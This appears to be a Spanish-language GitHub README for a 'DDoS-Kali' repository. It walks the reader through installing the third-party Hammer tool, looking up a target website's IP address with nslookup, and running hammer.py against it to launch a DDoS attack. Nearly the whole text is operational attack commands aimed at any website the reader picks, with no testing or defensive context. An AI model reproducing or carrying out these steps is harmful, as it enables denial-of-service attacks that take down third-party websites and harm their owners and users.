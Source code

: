 # DDoS-Kali
DDoS Repositorio Hammer.Py


Hammer - Herramienta Para Tirarle Ataques de DDoS A Una Pagina Web, Nsecesitas la ip numerica de la pagina 

Primero Actualizaremos Los Repositorios!

apt update

apt upgrade 

ahora instalaremos el python (Si ya Tienes instalado Salta este Paso)

apt install python

despues instalaremos el git clone (si ya lo tienes salta este paso)

apt install git

ahora instalaremos el dnsutils (si ya lo tienes salta este paso)

ahora instalaremos el repositorio

git clone https://github.com/Pavithran-R/Hammer/

ahora tienes que revisar la ip numerica de la pagina 

nslookup Ejemplo.com

Ahora Copiamos la ip numerica

accederemos ala Carpeta Hammer

cd Hammer

python hammer.py -s (Ip Numerica) -t 135

Ejemplo:python hammer.py -s 123.45.67.89 -t 135

El Ataque De DDoS Habra Iniciado!
